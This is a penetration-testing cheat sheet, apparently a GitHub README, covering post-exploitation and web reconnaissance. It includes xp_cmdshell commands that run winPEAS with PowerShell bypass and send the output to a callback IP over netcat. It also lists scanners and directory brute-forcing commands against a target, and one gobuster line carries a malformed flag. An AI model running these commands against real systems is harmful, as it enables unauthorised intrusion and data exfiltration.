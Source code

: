 ```bash
xp_cmdshell "powershell.exe -exec bypass ../../Users/<USER>/Desktop/winPEASx64.exe > ../../Users/<USER>/Desktop/winPEASx64.txt"

# Transfer results back
nc -nvlp 444 > winPEASx64.txt
xp_cmdshell "powershell.exe -exec bypass -c ../../Users/<USER>/Desktop/nc64.exe <CALLBACK_IP> 444 < ../../Users/<USER>/Desktop/winPEASx64.txt"
```

## 🌍 Web

### 🦊 Browser-based Reconn (Firefox)

- Proxy: https://addons.mozilla.org/en-US/firefox/addon/foxyproxy-standard/
- User-Agent: https://addons.mozilla.org/en-US/firefox/addon/user-agent-string-switcher/
- Techs used by website: https://addons.mozilla.org/en-US/firefox/addon/wappalyzer/
- Developer Tools: F12

- JavaScript Obfuscator: https://codebeautify.org/javascript-obfuscator
- JavaScript Deobfuscator: https://obf-io.deobfuscate.io/

### 🔍 Web Technology Detection

```bash
# Enumerates web server + version + OS + frameworks + JS libraries
whatweb --aggression 3 http://<TARGET> --log-brief=whatweb_scan.txt

# Command-line web vulnerability scanner
wapiti -f txt -o wapiti_scan --url http://<TARGET>

nikto -o nikto_scan.txt -h http://<TARGET>
```

### 🔍 Webserver Dirs

```bash
# Directory brute-force with a common wordlist
gobuster --quiet --threads 64 --output gobuster_dir_common dir --follow-redirect --wordlist /usr/share/seclists/Discovery/Web-Content/common.txt --url http://<TARGET>

# Directory brute-force using a larger wordlist
gobuster --quiet --threads 64 --output gobuster_dir_medium dir --follow-redirect --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --url http://<TARGET>

# Same with file extensions
gobuster --quiet --threads 64 --output gobuster_dir_medium dir ---follow-redirect --wordlist /usr/share/seclists/Discovery/Web-Content/raft-medium-directories.txt --extensions php,html,txt,bak,zip --url http://<TARGET>

### FEROXBUSTER: faster and recursive

feroxbuster -t 64 -o feroxbuster_dir_common --depth 2 -w /usr/share/seclists/Discovery/Web-Content/common.txt -u http://<TARGET>:3333
```
